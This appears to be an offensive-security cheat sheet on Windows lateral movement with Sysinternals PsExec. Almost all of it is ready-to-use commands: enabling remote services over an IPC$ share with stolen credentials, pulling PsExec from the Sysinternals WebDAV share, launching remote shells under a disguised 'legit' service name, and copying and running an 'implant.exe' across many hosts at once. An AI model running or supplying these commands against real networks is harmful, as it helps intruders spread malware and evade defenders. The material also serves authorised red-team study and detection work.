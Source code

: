 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - living-off-the-land
  - psexec
  - network-protocols
  - smb
  - windows
---
```

# Living off the Land

## 01 - Sysinternals

> [!IMPORTANT] Conditions
> It requires specific services to be enabled in order for `PsExec64.exe` to work. Here are the commands to enable it.

```
C:\> net.exe use \\<IP>\IPC$ /user:<username> <password>
sc.exe \\<IP> config netdde start= auto
sc.exe \\<IP> config netddedsdm start= auto
sc.exe \\<IP> config clipsrv start= auto
sc.exe \\<IP> start netdde
sc.exe \\<IP> start netddedsdm
sc.exe \\<IP> start clipserv
```

### 1.1 - Copy File from WebDAV

#### 1.1.1 - Command Prompt

```
C:\> net.exe use z: \\live.sysinternals.com\tools

C:\> copy z:\PsExec64.exe .

C:\> net.exe use z: /delete
```

#### 1.1.2 - PowerShell

```
PS C:\> New-PSDrive -Name Z -PSProvider FileSystem -Root "\\live.sysinternals.com\tools"

PS C:\> Copy-Item z:\PsExec64.exe .

PS C:\> Remove-PSDrive -Name Z
```

## 02 - Execute PsExec

### 2.1 - Single Machine

```
C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -r "A legit service name" cmd.exe

C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -r "A legit service name" -d -c "C:\path\to\shell.exe"

C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -d -c "C:\path\to\shell.exe"
```

### 2.2 - Multiple Machines

When targeting multiple computers just add the `@` sign.

```
C:\> .\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> "<commands>"
```

## 03 - Use Cases

### 3.1 - Copy and Execute Implant in Multiple Machines

> [!INFO] One administrator user account can have access to all or most machines
> Use an `Administrator` user or any domain admin account that has access to all or most Windows machines.

```
C:\> .\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> cmd.exe /c copy /y "\\<IP>\C$\implant.exe" "C:\Windows\Temp\"

.\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> -d -c "cmd.exe /c C:\Windows\Temp\implant.exe"
```

---
## References

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

### rot169

- [rot169: Abusing Windows Admin Shares (Lateral Movement)](https://www.youtube.com/watch?v=41MUhlHGZ4E)

### harmj0y

- [harmj0y: Pass the Hash is Dead Long Live Pass the Hash](https://blog.harmj0y.net/penetesting/pass-the-hash-is-dead-long-live-pass-the-hash/)